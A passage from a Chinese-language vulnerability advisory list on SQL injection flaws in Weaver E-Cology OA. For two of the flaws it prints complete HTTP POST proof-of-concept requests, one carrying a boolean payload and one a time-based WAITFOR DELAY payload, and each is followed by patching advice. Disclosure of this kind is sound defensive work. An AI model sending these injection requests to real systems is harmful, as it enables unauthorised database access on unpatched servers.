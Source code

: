 ![img](https://wdcdn.qpic.cn/MTY4ODg1NDE0MzMwNzkxNw_418372_yRb561t2zrGARzNc_1691761079?w=831&h=310&type=image/png)

![img](https://wdcdn.qpic.cn/MTY4ODg1NDE0MzMwNzkxNw_507552_VGTx_NoU314FOk8Y_1691761088?w=831&h=614&type=image/png)



**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。





#####             3.     **泛微E-Cology SQL注入漏洞**

**漏洞描述：**泛微E-Cology CptDwrUtil.ifNewsCheckOutByCurrentUser.dwr存在SQL注入漏洞。

**漏洞等级：**高危

**漏洞类型：**0day/1day/nday

**影响版本：**--

**漏洞详情：**

**POST /dwr/call/plaincall/CptDwrUtil.ifNewsCheckOutByCurrentUser.dwr HTTP/1.1** **Host: ip:port**  **User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36** **Connection: close** **Content-Length: 189** **Content-Type: text/plain** **Accept-Encoding: gzip**  **callCount=1** **page=** **httpSessionId=** **scriptSessionId=** **c0-scriptName=DocDwrUtil** **c0-methodName=ifNewsCheckOutByCurrentUser** **c0-id=0** **c0-param0=string:1 AND 1=1** **c0-param1=string:1** **batchId=0**

**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。



#####             4.     **泛微E-cology FileDownloadForOutDoc前台SQL注入漏洞**

**漏洞描述：**泛微e-cology FileDownloadForOutDoc 未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

**漏洞等级：**高

**漏洞类型：****0day/1day/nday**

**影响版本：**部分e-cology 8且补丁版本<10.58.0

​           部分e-cology 9且补丁版本<10.58.0

**漏洞详情：**



**POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close****fileid=3+WAITFOR+DELAY+'0:0:8'&isFromOutImg=1**

**处置建议：**目前官方已发布安全补丁，建议受影响用户尽快将补丁版本升级至10.58及以上。https://www.weaver.com.cn/cs/securityDownload.asp#



#####             5.     **金和OA C6-GetSqlData.aspx SQL注入漏洞**
